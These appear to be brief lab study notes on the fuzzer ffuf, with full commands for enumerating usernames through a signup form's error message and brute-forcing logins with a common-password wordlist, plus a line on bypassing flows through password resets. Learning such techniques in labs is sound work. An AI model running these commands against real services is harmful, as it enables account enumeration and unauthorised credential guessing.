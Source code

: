 "Fuzz Faster U Fool"

Username Enum:
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"`

-X: request method
-d: data to send (with FUZZ)
-H: additional headers
-mr: returned content filter

`ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200`

:W1,:W2 - specify parameters 
-fc: returned response code filter

Logic Flaw: 
Inspect implementations, manipulate requests, and use other links (password / email resets, etc.) to jump intended path of execution. 